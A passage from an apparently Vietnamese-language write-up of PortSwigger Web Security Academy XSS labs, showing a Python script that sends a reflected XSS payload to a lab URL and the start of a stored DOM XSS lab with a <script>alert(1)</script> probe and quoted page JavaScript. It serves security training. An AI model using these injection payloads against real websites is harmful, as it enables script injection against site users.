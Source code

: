 ![image](https://hackmd.io/_uploads/Sy1YJVPcp.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ab6003d04e984788072e44a004d005b.web-security-academy.net'

session = requests.Session()

payload = quote('\\"-alert(1)}//')

response = session.get(
    url + '/?search=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/r12JyVDqp.png)

## 13. Lab: Stored DOM XSS

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

### Đề bài

![image](https://hackmd.io/_uploads/Sy5584P9a.png)

### Phân tích

- Lab này có chứa lỗ hổng stored DOM XSS ở chức năng bình luận, để solve lab thì mình cần khai thác lỗ hổng để sử dụng chức năng alert()

Payload đầu là: `<script>alert(1)</script>` thì trang web chỉ trả về body comment là:

![image](https://hackmd.io/_uploads/BJleT4PcT.png)

CTRL+U thấy file javascript loadcomment

![image](https://hackmd.io/_uploads/HJ5Q6EP9p.png)

```javascript
function loadComments(postCommentPath) {
  let xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (this.readyState == 4 && this.status == 200) {
      let comments = JSON.parse(this.responseText);
      displayComments(comments);
    }
  };
  xhr.open("GET", postCommentPath + window.location.search);
  xhr.send();

  function escapeHTML(html) {
```